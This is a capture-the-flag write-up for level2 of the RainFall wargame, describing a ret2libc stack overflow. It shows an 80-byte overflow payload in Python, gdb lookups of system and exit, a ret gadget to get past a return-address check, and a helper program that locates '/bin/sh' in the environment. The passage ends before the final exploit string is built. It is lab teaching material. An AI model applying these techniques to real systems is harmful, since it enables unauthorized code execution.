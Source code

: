 It seems to be at `0xb7e6b060` . But that won’t bypass the check since it starts with `0xb` ..

```nasm
level2@RainFall:~$ python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7"' | ./level2
(0xb7e6b060)
```

Maybe there is a way to move the address of system ? Or to link to it with another address ? Or maybe that’s not the right way to solve it at all

No idea :/ 

We can try using the ret2libc attack explained in this article https://shellblade.net/files/docs/ret2libc.pdf

We will inject in the stack the code system(”/bin/bash”); exit();

The exit() call is needed to cleany end our program.

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

Moreover, there is a check if the return address has been modified with something starting with 0xb… If we return to a random line of the program we have great chances to encounter a segfault. So we can simply put the ret instructions’ address.

```bash
(gdb) disas p
Dump of assembler code for function p:
   [...]
   0x0804853e <+106>:	ret    
End of assembler dump.
```

In the previous exercice we had a 80 bytes offset, so we will try 80 again.

We should take in consideration the order of the stack (we don’t do exactly like the schema above) :

1. return address
2. system()
3. exit()
4. arg of system

The last thing is to get to address of “/bin/sh” (not working with “/bin/bash”) that is the env variable SHELL :

```bash
level2@RainFall:~$ export SHELL=/bin/sh
level2@RainFall:~$ echo '#include <stdio.h>
> #include <stdlib.h>
> 
> int main(int ac, char *argv[]) {
> printf("%p\n", getenv(argv[1])); }' > /tmp/script.c
level2@RainFall:~$ cd /tmp
level2@RainFall:/tmp$ gcc script.c -o script
level2@RainFall:/tmp$ ./script SHELL
0xbffff8bf
level2@RainFall:tmp$ cd -
/home/user/level2
```
